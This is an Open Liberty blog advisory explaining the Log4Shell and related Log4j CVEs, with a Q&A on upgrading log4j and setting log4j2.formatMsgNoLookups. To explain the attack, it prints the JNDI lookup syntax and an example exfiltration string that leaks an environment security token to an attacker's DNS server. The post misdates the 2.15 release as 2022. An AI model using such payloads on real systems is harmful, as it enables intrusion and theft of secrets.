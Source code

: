 ---
layout: post
title: "Liberty Guide on Log4j CVE-2021-44228, CVE-2021-4104 and CVE-2021-45046"
# Do NOT change the categories section
categories: blog
author_picture: https://avatars.githubusercontent.com/u/10999780?s=460&u=1a66e468c70e84f54bf5a75c27881cc6133ccc20&v=4
author_github: https://github.com/Emily-Jiang
seo-title: Liberty Guide on Log4j CVE-2021-44228, CVE-2021-4104 and CVE-2021-45046
seo-description: Open Liberty Guide on understanding and solving Log4j CVE-2021-44228, CVE-2021-4104 and CVE-2021-45046
blog_description: Open Liberty provides this essential guide for Open Liberty customers to understand Log4j CVE-2021-44228, CVE-2021-4104 and CVE-2021-45046 and the suggestions how to mitigate this threat 
open-graph-image: https://openliberty.io/img/twitter_card.jpg
additional_authors:
- name: Alasdair Nottingham
  github: https://github.com/nottycode
  image: https://avatars3.githubusercontent.com/nottycode
---
= Liberty Guide on Log4j CVE-2021-44228, CVE-2021-4104 and CVE-2021-45046
Emily Jiang <https://github.com/Emily-Jiang>
:imagesdir: /
:url-prefix:
:url-about: /
//Blank line here is necessary before starting the body of the post.

In this blog, we are providing some essential guide for Open Liberty customers to understand Log4j CVE-2021-44228, CVE-2021-4104 and CVE-2021-45046 and the suggestions how to mitigate this threat.

== Introduction:
On December 10th 2022 the Apache Logging project released a 2.15 release for Log4j2, a popular Java logging framework, to address a CVSS 10 scored CVE-2021-44228 known as Log4Shell. 
CVSS 10 is the highest severity score that can be assigned.


The Log4Shell vulnerability occurs due to a combination of a message lookup feature in Log4J V2 and how the Java Naming and Directory (JNDI) API works when connecting via LDAP. 
A common syntax for variable replacement in configuration is `${variable-name}`, the Log4J message lookup feature enables that capability for log messages. 
Log4J also has a special lookup function for resolving variables from an LDAP server. The syntax for this is `${jndi:ldap://<server name>/<object name>}`. 
When Log4J sees this string it will connect to the provided server to download the object to log the value. 
This will return a serialized object which the LDAP JNDI implementation will deserialize, if the JVM does not have a copy of the class for the serialized object it will use a copy available from the server. 

It is very common for applications using a logging framework to log untrusted input for debugging purposes in case of a failure. 
Meaning if an attacker can work out an input value that will be logged by the application it can insert this string into the payload and when it is logged the Java code will download code from the server controlled by the attacker and execute it. 
To add to the risk present by this lookup function the lookup function is recursive allowing for data exfiltration. Data exfiltration maybe possible even if the targeted LDAP server is not reachable. 
For example a string like `${jndi:ldap://${env.security_token}.<attacker domain>/a}` would resolve the security_token environment variable from the shell and then do a DNS lookup to resolve the IP address using the attackers controlled DNS server providing the hacker with the value of the security token.

Since the original `Log4Shell` Apache has issued two further CVEs affecting Log4J CVE-2021-4104 and CVE-2021-45046. 
As a result of this the recommendation is to upgrade all log4j usage to at least the 2.16 version.

*Open Liberty does not ship log4j and as a result any data logged by Open Liberty will not put you at risk.* 
However log4j is a widely used framework and your applications may make use of Log4J as a result we have prepared the following Q&A for developers seeking advice.

== Q&A:

* Q1. If my applications use log4j, which version of log4j should I use to be safe?

You should update the version of `log4j2` to the latest version or `2.16` at a minimum. 

* Q2. If I am running with latest version of Java, am I protected? Do I still need to follow remediate steps? 

Log4Shell (`CVE-2021-44228`) is a vulnerability in the log4j2 open source project. Features in the most recent releases of Java mitigate some, but not all of the risk introduced by the Log4Shell vulnerability.


* Q3. It will take a long time to update all our applications is there anything we can do to mitigate in the meantime?

Provided `log4j` `2.10` or newer is being used setting the Java System property `log4j2.formatMsgNoLookups` to `true` will mitigate the `Log4Shell` vulnerability, but it will not protect against `CVE-2021-4104` or `CVE-2021-45046`. It should be noted that `Log4Shell` is CVSS 10 and the others require non-default configuration of log4j.


* Q4 How can I configure Liberty with `log4j2.formatMsgNoLookups`?

Create a `jvm.options` file in `${wlp.user.dir}/shared/jvm.options` with `-Dlog4j2.formatMsgNoLookups=true` on a line by itself. Then restart all servers for it to take effect. This will apply to all servers in that user dir.


* Q5. I cannot find `org/apache/logging/log4j/core/lookup/JndiLookup.class` in my log4j jar, am I vulnerable?

It is unlikely you are vulnerable. Most likely you are running `log4j1` which is not vulnerable, however you will be vulnerable to `CVE-2021-4104`.


* Q6. Could setting `log4j2.formatMsgNoLookups=true` have an effect on log4j 1.x or other non-log4j applications? Is it safe to set this parameter until we have checked every custom written part in our WAS environments? 

The setting should have no affect on non-log4j or log4j 1.x. It is a property related to log4j 2.x behavior. It also does not protect against `CVE-2021-45046`.

* Q7. If I set `log4j2.formatMsgNoLookups` to `true` will it affect my application use of log4j2?

Yes, that will be visible to any and all copies of `log4j2` that are in the JVM. This setting is not sufficient to protect against `CVE-2021-45046`.

* Q8. We are still running our own applications on Java 7 that use log4j2,  but the fixed version of log4j2 requires Java 8

The Apache Logging project released `2.12.2` which supports Java 7, upgrade to this version or a newer 3rd diget release. 

* Q9. Is IBM Java affected by this vulnerability?

IBM Java does not include the affected library, so it is not directly affected by this vulnerability. However, applications running on top of IBM Java may include vulnerable copies of the affected library and need their own remediation.


If you are WebSphere Application Server customers, please refer to https://www.ibm.com/support/pages/node/6525860[this blog] to learn about more on how to respond to these CVEs.
You might find the following blogs to be useful: 

* https://www.infoq.com/news/2021/12/log4j-zero-day-vulnerability/[Vulnerability Affecting Multiple Log4j Versions Permits RCE Exploit]
* https://blog.sebastian-daschner.com/entries/log4shell-and-how-to-fix[The Log4Shell vulnerability and how to fix it]
* http://slf4j.org/log4shell.html[Comments on the CVE-2021-44228 vulnerability from SLF4J]